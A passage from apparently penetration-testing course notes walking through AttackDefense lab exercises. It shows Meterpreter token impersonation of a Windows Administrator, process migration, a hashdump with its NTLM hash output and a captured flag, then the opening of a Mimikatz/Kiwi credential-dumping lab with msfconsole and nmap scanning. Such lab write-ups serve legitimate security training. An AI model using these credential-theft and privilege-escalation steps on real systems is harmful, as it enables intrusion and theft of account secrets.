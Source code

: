 - `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator

ps
migrate 3548
# explorer.exe

hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

```bash
cd C:\\Users\\Administrator\\Desktop\\
dir
cat flag.txt
	x28c832a39730b7d46d6c38f1ea18e12
```

------

## Lab 4 - Dump Hashes Mimikatz

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> - Target IP: `10.2.17.39`
> - Check the [🔬Lab 2 - Mimikatz lab here](../1-system-attack/windows-attacks/creds-dump.md#lab-2-mimikatz) with full description of the commands

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.17.39
setg RHOST 10.2.17.39
workspace -a Mimikatz
db_nmap -sV 10.2.17.39
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
